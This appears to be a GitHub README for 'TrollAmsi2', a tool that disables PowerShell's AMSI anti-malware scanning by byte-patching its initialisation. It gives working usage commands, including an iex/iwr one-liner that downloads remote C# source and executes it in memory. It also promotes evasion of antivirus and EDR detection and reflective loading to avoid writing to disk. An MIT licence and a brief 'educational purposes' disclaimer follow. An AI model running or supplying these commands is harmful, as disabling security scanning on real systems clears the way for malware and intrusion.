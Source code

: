 # TrollAmsi2
Bypass powershell amsi by "byte patching" the init method -> basically break it. <br>
Afterwhich, we manually call UnInit and when it retries to re-Init properly, it fails <br>

**DLL Method**
- This is the preferred method which uses HarmonyLib 
- compile TrollAmsi2.cs into a .dll and use with 0Harmony.dll (Both are 0/72 on virus total and clean on hybrid-analysis) 
- If you are concerned with dropping on disk, ofcourse you can reflectively load 

**powershell one liner**
- Use trollamsi2.ps1 
- Not as stealthy as TrollAMSI due to the use of VirtualProtect which gets flagged by some AV/EDRs during the $lib add-type 
  
## Usage 
```
#DLL method 
$assembly = [System.Reflection.Assembly]::LoadFrom("C:\0Harmony.dll")
$code = (iwr https://github.com/cybersectroll/TrollAmsi2/raw/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
Add-Type -TypeDefinition $code -ReferencedAssemblies "C:\0Harmony.dll"
[TrollAmsi2]::SmokeOut()

#powershell one liner
iex(iwr https://raw.githubusercontent.com/cybersectroll/TrollAMSI2/refs/heads/main/TrollAmsi2.cs -UseBasicParsing).content
```

## MIT License for HarmonyLib
MIT License

Copyright (c) 2017 Andreas Pardeike

Permission is hereby granted, free of charge, to any person obtaining a copy
of this software and associated documentation files (the "Software"), to deal
in the Software without restriction, including without limitation the rights
to use, copy, modify, merge, publish, distribute, sublicense, and/or sell
copies of the Software, and to permit persons to whom the Software is
furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all
copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR
IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY,
FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE
AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER
LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM,
OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE
SOFTWARE.

## Disclaimer
Should only be used for educational purposes!
